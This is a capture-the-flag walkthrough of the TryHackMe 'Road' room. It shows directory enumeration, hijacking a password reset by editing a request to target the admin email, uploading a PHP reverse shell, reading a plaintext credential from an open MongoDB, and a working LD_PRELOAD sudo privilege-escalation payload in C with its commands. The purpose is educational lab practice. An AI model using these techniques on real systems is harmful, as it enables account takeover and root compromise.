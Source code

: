 # 92 - Road (email hijacking, MongoDB, LD\_PRELOAD exploitation)

Room Link --> [https://tryhackme.com/room/road](https://tryhackme.com/room/road)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
SSH port 22
Port 80 HTTP
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt  -xjs,txt,php

index.html
phpMyAdmin
v2
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/v2/ -t30 -w /usr/share/dirb/wordlists/common.txt  -xjs,txt,php

/v2/admin
/v2/index.php
/v2/lostpassword.php
/v2/profile.php
```
{% endcode %}

We have to register an account.

### Initial Access

The profile section displays the user profile and also an admin email which is probably the admin's username.&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can think about hijacking the email, we have a section to change the password of the registered user having the previous password, we can try to enter my username and credentials and capture the request using Burp Suite and change my username to admin email.

This way we can change the password of the Administrator user and we will have access to the file upload part.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Intercept with burpsuite and change the username to admin username.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Login in as admin:

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Now we can upload a php reverse shell on the server.

After uploading, looking for where it was uploaded to, inspecting the source code and searching for `/v2` we see a dir, i checked it out but:

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Navigating to --> [http://road.thm/v2/profileimages/rev.php](http://road.thm/v2/profileimages/rev.php)

And the rev shell was triggered.

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to webdeveloper

We enumerate the box using `ss -tl` .

```bash
www-data@sky:/home/webdeveloper$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*              
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*              
LISTEN  0       511                    *:http                  *:*              
LISTEN  0       128                 [::]:ssh                [::]:*       
```

MongoDB is running on 27017

Search google for MongoDB exploit, and found the [hacktricks blog](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

```bash
www-data@sky:/home/webdeveloper$ mongo 127.0.0.1:27017
```

And we are in the DB interface.

```
> show dbs;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use admin
switched to db admin
> show collections
system.version
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```

We got credentials for "webdev..."

`webdeveloper : BahamasChapp123!@#`&#x20;

So we ssh into the account.

### Priv Esc to root

`sudo -l`&#x20;

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

#### LD\_PRELOAD exploitation

`env_keep+=LD_PRELOAD`. I searched for what LD\_PRELOAD is. It allowed passing shared libraries that would be loaded when the program start.

I found a [great post on using LD\_PRELOAD to escalate privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/). I used the provided code to get root

We will create a shell in C:

{% code title="shell.c" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
{% endcode %}

Now compile it with gcc

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

```bash
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
```

Done



